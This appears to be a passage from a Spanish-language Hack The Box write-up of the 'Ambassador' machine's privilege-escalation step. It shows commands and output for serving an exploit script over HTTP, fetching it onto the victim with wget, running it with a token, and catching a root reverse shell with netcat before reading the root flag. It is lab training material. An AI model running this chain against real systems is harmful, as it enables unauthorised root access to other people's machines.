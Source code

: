## Escalada de privilegios

Usando el exploit  podemos elevar nuestros privilegios, nos descargamos el repositorio de **GitHub
**
, nos montamos un servidor **HTTP** con **Python** 


```bash
python -m http.server 80
```

En la máquina víctima lo descargamos, y lo ejecutamos, debemos estar en la carpeta personal para poder descargarlo.
```bash
developer@ambassador:~$ wget http://10.10.14.61/exploit.py
--2023-01-21 05:40:22--  http://10.10.14.61/exploit.py
Connecting to 10.10.14.61:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1409 (1.4K) [text/x-python]
Saving to: ‘exploit.py.1’

exploit.py.1                                  100%[=================================================================================================>]   1.38K  --.-KB/s    in 
0s      

2023-01-21 05:40:22 (95.1 MB/s) - ‘exploit.py.1’ saved [1409/1409]

developer@ambassador:~$ 
```
En la máquina víctima ejecutamos lo siguiente.
Nota: Recuerda cambiar tu IP de HTB
En nuestra máquina host nos ponemos en escucha

```
developer@ambassador:~$ python3 exploit.py --lhost 10.10.14.61 --lport 123 --token bb03b43b-1d81-d62b-24b5-39540ee469b5 
```

```bash
❯ nc -nlvp 123
listening on [any] 123 ...
```
Al ejecutarlo nos debe llegar la shell como root

```bash
❯ nc -nlvp 123
listening on [any] 123 ...
connect to [10.10.14.61] from (UNKNOWN) [10.10.11.183] 58732
bash: cannot set terminal process group (3731): Inappropriate ioctl for device
bash: no job control in this shell
root@ambassador:/# 
```

Ahora podemos vizualizar la flag como root


```bash
root@ambassador:~# ls
cleanup.sh  root.txt  snap
root@ambassador:~# cat root.txt 
5a4**************************4b1
root@ambassador:~# 
```
